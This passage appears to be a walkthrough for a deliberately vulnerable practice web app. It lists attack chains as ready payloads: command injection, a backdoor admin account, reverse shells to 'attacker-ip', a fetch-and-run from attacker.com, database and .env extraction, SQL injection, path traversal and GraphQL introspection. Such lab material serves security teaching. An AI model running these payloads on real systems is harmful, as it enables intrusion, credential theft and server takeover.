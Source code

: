 3. **Exploitation**:
   - Identify command injection in ping tool at `/ping`
   - Test with payload: `localhost; id`
   - Execute reconnaissance commands: `localhost; whoami; id; uname -a`

4. **Persistence**:
   - Create backdoor account: `localhost; curl -X POST http://localhost:3000/api/auth/register -d "username=backdoor&password=backdoor&email=backdoor@attacker.com&role=admin"`
   - Or create backdoor file: `localhost; echo '#!/bin/bash\nbash -i >& /dev/tcp/attacker-ip/4444 0>&1' > /tmp/backdoor.sh; chmod +x /tmp/backdoor.sh`

5. **Data Exfiltration**:
   - Extract database: `localhost; sqlite3 darkvault.db .dump > /tmp/dump.sql; cat /tmp/dump.sql`
   - Retrieve configuration: `localhost; cat config.json`
   - List environment variables: `localhost; env`

6. **Privilege Escalation (if running as limited user)**:
   - Check for SUID binaries: `localhost; find / -perm -4000 -type f 2>/dev/null`
   - Explore sudo privileges: `localhost; sudo -l`
   - Exploit local privilege escalation vulnerabilities

7. **Full Compromise**:
   - Establish persistent reverse shell: `localhost; bash -c 'bash -i >& /dev/tcp/attacker-ip/4444 0>&1'`
   - Download additional tools: `localhost; curl -o /tmp/tool.sh http://attacker.com/tool.sh; chmod +x /tmp/tool.sh; /tmp/tool.sh`
   - Complete control of the server

### Full Data Breach
**Objective**: Extract all sensitive data from the application

**Combined Attack Chain**:
1. **Initial Access**:
   - Bypass authentication with SQL injection: `' OR 1=1--`

2. **Database Exfiltration**:
   - Extract database schema: `' UNION SELECT 1,2,sql,4,5,6,7 FROM sqlite_master WHERE type='table'--`
   - Extract user credentials: `' UNION SELECT 1,2,username,password,email,6,7 FROM users--`
   - Extract sensitive data from all tables systematically

3. **File System Access**:
   - Use path traversal to access configuration: `/api/file?name=../config.json`
   - Access source code: `/api/file?name=../app.js`
   - Access environment variables: `/api/file?name=../.env`

4. **API Data Harvesting**:
   - Use GraphQL introspection to map data: 
     ```graphql
     {
       __schema {
         types {
           name
           fields {
             name
           }
         }
       }
     }
     ```
   - Extract all data through GraphQL queries
